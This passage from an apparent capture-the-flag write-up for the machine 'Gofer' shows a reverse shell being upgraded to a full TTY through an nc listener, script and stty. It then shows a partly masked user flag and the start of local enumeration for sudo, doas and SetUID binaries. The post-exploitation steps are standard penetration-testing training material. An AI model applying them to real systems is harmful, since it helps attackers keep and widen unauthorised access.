     
    
    jhudson@gofer:/usr/bin$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    jhudson@gofer:/usr/bin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    jhudson@gofer:/usr/bin$ 
    

And read `user.txt`:

    
    
    jhudson@gofer:~$ cat user.txt
    f387d527************************
    

## Shell as tbuckley

### Enumeration

#### General

The OS is Debian bullseye as suspected:

    
    
    jhudson@gofer:~$ lsb_release -a
    No LSB modules are available.
    Distributor ID: Debian
    Description:    Debian GNU/Linux 11 (bullseye)
    Release:        11
    Codename:       bullseye
    

Neither `sudo` nor `doas` seem to be on Gofer (the file in `completions` is a
Bash script, not the `sudo` binary):

    
    
    jhudson@gofer:~$ sudo -l
    bash: sudo: command not found
    jhudson@gofer:~$ doas
    bash: doas: command not found
    jhudson@gofer:~$ find / -name 'sudo' 2>/dev/null
    /usr/share/bash-completion/completions/sudo
    jhudson@gofer:~$ find / -name 'doas' 2>/dev/null
    

#### SetUID / SetGID Binaries

Looking for SetUID/SetGID binaries, one does jump out as unusual:
